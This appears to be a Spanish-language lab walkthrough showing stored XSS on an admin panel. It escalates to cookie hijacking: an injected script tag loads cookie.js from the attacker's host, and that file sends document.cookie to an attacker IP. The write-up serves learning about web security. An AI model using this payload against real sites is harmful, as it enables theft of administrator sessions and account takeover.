 ```js
<script> alert("XSS") </script>
```

> Para crear un nuevo usuario repetimos el mismo proceso de antes, inspeccionamos el elemento y eliminamos la etiqueta **disabled=""**

![[Pasted image 20240731212007.png]]

Observamos que al dirigirnos a **admin/admin.php** nos salta una ventana emergente por lo que es vulnerable a un **[[XSS]]**

![[Pasted image 20240731212039.png]]

Teniendo esto en cuenta procederemos a crear otro usuario para intentar realizar un **Cookie Hijacking**.

Introducimos el siguiente código **JavaScript**, el cual realizará una petición al siguiente recurso de nuestra [[Dirección IP]].

```js
<script src="http://192.168.18.107/cookie.js"></script>
```

> Para crear un nuevo usuario repetimos el mismo proceso de antes, inspeccionamos el elemento y eliminamos la etiqueta **disabled=""**

![[Pasted image 20240731212503.png]]

Ahora si nos montamos un servidor con python, observamos que al entrar **admin/admin.php** se realiza una petición por **GET**:

```bash
python3 -m http.server 80
```

![[Pasted image 20240731213009.png]]

Si esperamos un poco a la espera de que algún usuario entre a dicha **URL**, y así poder acontecer el **Cookie Hijacking**. Observaremos como se ha realizado una petición por **GET** al archivo **cookie.js**:

![[Pasted image 20240731214528.png]]

Ahora lo que tenemos que hacer, es configurar el archivo **cookie.js** para que nos devuelva la **cookie** del usuario, que debería ser el **Admin** puesto que es el panel de Administrador. 

Para lograr eso el contenido del archivo (**cookie.js**) debe de ser lo siguiente:

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.18.104/?cookie=' + document.cookie);
request.send();
```

De esta forma, recibiremos la **cookie** que probablemente sea del usuario **Administrador**

![[Pasted image 20240731214854.png]]
